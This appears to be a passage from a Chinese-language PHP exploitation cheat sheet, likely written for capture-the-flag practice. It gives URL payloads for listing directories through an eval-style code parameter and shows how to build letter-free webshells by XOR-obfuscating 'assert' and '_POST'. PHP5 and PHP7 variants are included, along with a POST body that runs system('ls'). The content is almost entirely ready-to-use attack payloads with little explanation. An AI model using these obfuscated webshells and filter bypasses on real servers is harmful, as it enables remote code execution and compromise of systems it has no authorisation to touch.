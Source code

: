 <font color=red>chr()转换为字符串</font>

```
?code=print_r(chr(ord(strrev(crypt(serialize(array()))))); //有概率得到字符‘/’
?code=print_r(array_rand(array_flip(scandir(chr(ord(strrev(crypt(serialize(array())))))))));
```

# 12.无字母数字绕过

## 异或绕过

使用异或的方式，构造出想要使用的字符串的异或后的字符串

使用脚本

### php5

```
<?php
$a='assert';
$b='_POST';
$c=$$b;
$a($c['_'])
```

更改成异或的方式

```
<?php
$_ = "!((%)("^"@[[@[\\";
$__ = "!+/(("^"~{`{|";
$___ = $$__;
$_($__['_']);
?>
```

```
?cmd=$_ = "!((%)("^"@[[@[\\";$__ = "!+/(("^"~{`{|";$___ = $$__;$_($__['_']);

需要进行url编码
```

```
POST提交:_=system('ls')
```



### php7

```
<?php
$_ = "!+/(("^"~{`{|";
$__ = $$_;
`$__['_']`;
?>
```
